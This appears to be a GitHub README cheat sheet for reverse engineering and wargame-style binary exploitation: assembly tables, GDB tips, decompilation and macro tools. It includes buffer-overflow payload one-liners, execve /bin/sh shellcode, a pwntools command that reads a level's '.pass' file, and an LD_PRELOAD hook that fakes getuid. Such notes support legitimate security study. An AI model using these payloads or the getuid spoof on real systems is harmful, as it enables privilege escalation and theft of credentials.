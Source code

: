 <picture>
    <source height="100px" srcset="https://user-images.githubusercontent.com/22857002/173634301-11eb983d-29a7-4efb-9be3-ab2179eab6b7.svg#gh-dark-mode-only" media="(prefers-color-scheme: dark)">
    <img height="100px" src="https://user-images.githubusercontent.com/28403617/172731874-c08c9da6-bac7-4836-b8bc-3744087d30a3.svg#gh-light-mode-only">
</picture>

---

- [ASM](#asm)
- [Binary ninja](#binary-ninja)
- [Decompile Python Executable](#decompile-python-executable)
- [GCC](#gcc)
- [Lib Injection](#lib-injection)
- [Macro Office PPTM](#macro-office-pptm)
- [OverFlow](#overflow)
- [Shellcode](#shellcode)

# ASM
### Variables
| x64 | x32 | What is ?             |
|:---:|:---:|-----------------------|
| RAX | EAX | Return Value          |
| EIP | EIP | Next Instruction      |
| RCX | ECX | Counter               |
| RSP | ESP | Stack Pointer         |
| RDI | EDI | First Arg of Function |
| RSI | ESI | Second Arg            |
| RCX | ??? | Third Arg             | 

[Source](https://www.cs.uaf.edu/2017/fall/cs301/lecture/09_11_registers.html)

## Operation
| Operation             | Explication             |
|:----------------------|-------------------------|
| **MOV** size dest,src | dest ← src              |
| **LEA** dest,\[op\]   | dest ← addr op          |
| **PUSH** op           | Increase RSP & Store op |
| **POP** op            | Load op & Discrease RSP |
|                       |                         |
| **ADD** op1,op2       | op1 ← op1 + op2         |
| **SUB** op1,op2       | op1 ← op1 - op2         |
| **NEG** reg           | reg ← -reg              |
| **INC** reg           | reg ← reg + 1           |
| **DEC** reg           | reg ← reg - 1           |
|                       |                         |
| **AND** op1,op2       | op1 ← op1 & op2         |
| **OR**  op1,op2       | op1 ← op1 | op2         |
| **XOR** op1,op2       | op1 ← op1 ^ op2         |
|                       |                         |
| **CMP** op1,op2       | op1 - op2               |
| **TEST** op1,op2      | op1 & op2               |
| **JMP** op            | Jump to op              |

[Source - Page 21](https://www.lacl.fr/tan/asm)

# Overflow
### Basic
```bash
(python -c "import struct; print('A' * (100 - 0) + struct.pack('<I', 0xffffffff))")
```

### Shellcode
```bash
(python -c "import struct; print('\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80' + 'A' * (100 - 21) + struct.pack('<I', 0xffffffff))")
```

# Shellcode
### Cat
```bash
python -c "import pwn; shell = pwn.asm(pwn.shellcraft.i386.linux.cat('/home/users/level05/.pass')); print(shell); print(len(shell))"
```

### Exec sh 1
```bash
python -c "import pwn; shell = pwn.asm(pwn.shellcraft.i386.linux.sh()); print(shell); print(len(shell))"
```

### Exec sh 2
```
\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80
21
```

# GDB
### Print
```
x/s "string"
x/x 0xff
```

### Get env address
```
x/10s **(char***)&environ
```

## Peda
### Install
```bash
git clone https://github.com/longld/peda.git ~/.peda
echo "source ~/.peda/peda.py" >> ~/.gdbinit
echo "DONE! debug your program with gdb and enjoy"
```

# Binary ninja
### Scrap code from html

```javascript
let result = '';
[...document.querySelectorAll('.LinearDisassemblyLine')].forEach(parent_elmt => {
  [...parent_elmt.children].forEach(children_elmt => {
    result += children_elmt.textContent
  });
  result +=  '\n'
});
console.log(result);
```

# Lib Injection
- Recreate getuid function
```C
uid_t	getuid(void)
{
	return (4242);
}
```
- compile
```bash
gcc -shared -fpic lib.c -o libnike.so -m32
```
- run and inject
```bash
LD_PRELOAD=./libnike.so ./exec
```

# Decompile Python Executable
Convert executable into .pyc
```bash
git clone https://github.com/extremecoders-re/pyinstxtractor
cd pyinstxtractor
python3 pyinstxtractor.py exec
```

Disassembly .pyc (compatible python 3.9.2)
```bash
git clone https://github.com/zrax/pycdc
cd pycdc
cmake
make
./pycdc file.pyc # Convert .pyc into .py
./pycdas file.pyc # Convert .pyc into byte-code disassembly
```

# Macro Office PPTM
### Install
```bash
sudo pip3 install oletools
```

### Decompress PPTM
```bash
olevba  -c file.pptm
```
